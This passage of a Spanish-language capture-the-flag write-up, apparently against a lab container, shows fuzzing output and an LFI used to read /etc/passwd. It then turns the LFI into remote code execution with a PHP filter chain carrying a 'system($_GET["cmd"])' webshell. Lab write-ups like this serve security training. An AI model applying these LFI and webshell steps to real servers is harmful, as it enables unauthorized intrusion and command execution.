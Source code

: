 ```bash
000000741:   200        454 L    1381 W     22326 Ch    "file"                                                                                                                   

Total time: 0
Processed Requests: 207643
Filtered Requests: 207642
Requests/sec.: 0


```

Vemos que es vulnerable a un **LFI**.

Al apuntar al **/etc/passwd**, podemos sacar dos usuarios interesantes(**cristal** y **darks**) :

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
darks:x:1001:1001::/home/darks:/bin/rbash
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
systemd-resolve:x:996:996:systemd Resolver:/:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
cristal:x:1002:1002:,,,:/home/cristal:/bin/bash
tcpdump:x:102:105::/nonexistent:/usr/sbin/nologin
```

Al usar **hydra** da error. Intentaremos hacer un RCE mediante **php wrappers** para ejecutar comandos remotamente sin subir archivo.

Nos descargamos [PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) , ya que podremos colar comandos usándola.

```bash

./php_filter_chain_generator.py   --chain  '<?php system($_GET["cmd"]);?>'

http://172.17.0.2/index.php?file=<PHP CHAIN>&cmd=ls -l

```
